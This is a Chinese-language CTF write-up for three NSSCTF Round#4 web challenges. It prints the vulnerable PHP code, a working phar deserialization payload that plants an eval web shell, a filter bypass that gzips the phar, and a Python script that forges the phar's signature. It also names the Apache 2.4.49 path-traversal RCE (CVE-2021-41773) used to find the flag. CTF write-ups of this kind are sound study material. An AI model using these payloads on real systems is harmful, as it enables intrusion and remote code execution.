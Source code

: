 ```yaml
---
title: "NSSCTF Round#4 Web Writeup"
date: 2022-08-03T22:12:24+08:00
draft: false
tags: ['ctf','php']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


等 ez_web (revenge) 出来才发现原来的 ez_web 直接读 /flag 就行...

ez_rce 一开始因为没装插件的原因一直想不出来 (被打)

<!--more-->

## 1zweb

![20220803125540](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803125540.png)

查询文件处可以读文件

index.php

```
<?php
class LoveNss{
    public $ljt;
    public $dky;
    public $cmd;
    public function __construct(){
        $this->ljt="ljt";
        $this->dky="dky";
        phpinfo();
    }
    public function __destruct(){
        if($this->ljt==="Misc"&&$this->dky==="Re")
            eval($this->cmd);
    }
    public function __wakeup(){
        $this->ljt="Re";
        $this->dky="Misc";
    }
}
$file=$_POST['file'];
if(isset($_POST['file'])){
    echo file_get_contents($file);
}
```

upload.php

```
<?php
if ($_FILES["file"]["error"] > 0){
    echo "上传异常";
}
else{
    $allowedExts = array("gif", "jpeg", "jpg", "png");
    $temp = explode(".", $_FILES["file"]["name"]);
    $extension = end($temp);
    if (($_FILES["file"]["size"] && in_array($extension, $allowedExts))){
        $content=file_get_contents($_FILES["file"]["tmp_name"]);
        $pos = strpos($content, "__HALT_COMPILER();");
        if(gettype($pos)==="integer"){
            echo "ltj一眼就发现了phar";
        }else{
            if (file_exists("./upload/" . $_FILES["file"]["name"])){
                echo $_FILES["file"]["name"] . " 文件已经存在";
            }else{
                $myfile = fopen("./upload/".$_FILES["file"]["name"], "w");
                fwrite($myfile, $content);
                fclose($myfile);
                echo "上传成功 ./upload/".$_FILES["file"]["name"];
            }
        }
    }else{
        echo "dky不喜欢这个文件 .".$extension;
    }
}
?>
```

有一个类 LoveNSS, 想到了 phar 反序列化

这里也没啥 pop 链的, 直接改字段

payload

```
<?php

class LoveNss{
    public $ljt = "Misc";
    public $dky = "Re";
    public $cmd = 'eval($_REQUEST[1]);';

}

$o = new LoveNss();

@unlink("phar.phar");
$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();

?>
```

但是 upload.php 会检测文件中是否含有 `__HALT_COMPILER();` 这个关键字

大小写绕过无效, phar 不解析

网上搜了一下发现 phar 绕过的新姿势

[https://www.anquanke.com/post/id/240007](https://www.anquanke.com/post/id/240007)

可以通过 tar gzip b2zip 的方式压缩 phar 文件, PHP 处理时会自动解压缩并且解析里面的 phar

同时这里存在 `__wakeup`, 可以改数字绕过

> 当序列化字符串表示对象属性个数的值大于真实个数的属性时就会跳过 __wakeup 的执行

Linux 下使用 `gzip phar.phar` 压缩, 改后缀为 png 上传

![20220803130051](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130051.png)

报错 `broken signature`

PHP 官方手册查了一下发现有签名校验

网上搜了好长时间都没结果... 然后想起来前几天的强网杯 easyweb 也是要绕过 `__wakeup`

于是换了个关键词在 Google 上搜了一会就出来了...

[https://www.wangan.com/p/7fy78yfaa40486ed#easyweb](https://www.wangan.com/p/7fy78yfaa40486ed#easyweb)

[http://www.yongsheng.site/2022/05/14/phar/](http://www.yongsheng.site/2022/05/14/phar/)

贴一下改签的脚本

```
from hashlib import sha1

file = open('phar.phar','rb+').read()

text = file[:-28]

last = file[-8:]

new_file = text + sha1(text).digest() + last

open('new.phar','wb').write(new_file)
```

本地运行后改后缀上传

![20220803130513](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130513.png)

上传成功

![20220803130554](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130554.png)

链接

![20220803130700](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130700.png)

![20220803130713](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803130713.png)

## 1zweb (revenge)

和上面的一样基本没区别

index.php 略有改动

```
if(isset($_POST['file'])){
    if (preg_match("/flag/i", $file)) {
    	die("nonono");
    }
    echo file_get_contents($file);
}
```

md 看了才知道原来那题直接读 /flag 就行...

wp 同上


## ez_rce

这题一开始没做出来, 原因是没装 Wappalyzer...

![20220803220146](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220146.png)

apache 2.4.49

存在一个路径穿越漏洞 CVE-2021-41773

[https://www.cnblogs.com/RichardYg/p/16272797.html](https://www.cnblogs.com/RichardYg/p/16272797.html)

目录遍历的 exp 测试失败, 命令执行 exp 测试成功

![20220803220317](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220317.png)

有一个 `flag_is_here` 文件夹

![20220803220342](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220342.png)

一共四层文件夹, 每一个文件夹都是 0-9

![20220803220428](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220428.png)

明显需要爆破一下

![20220803220458](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803220458.png)

Attack type 设置为 Cluster bomb

这样一共就是 `10*10*10*10` 的 payload

![20220803221112](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220803221112.png)

得到 flag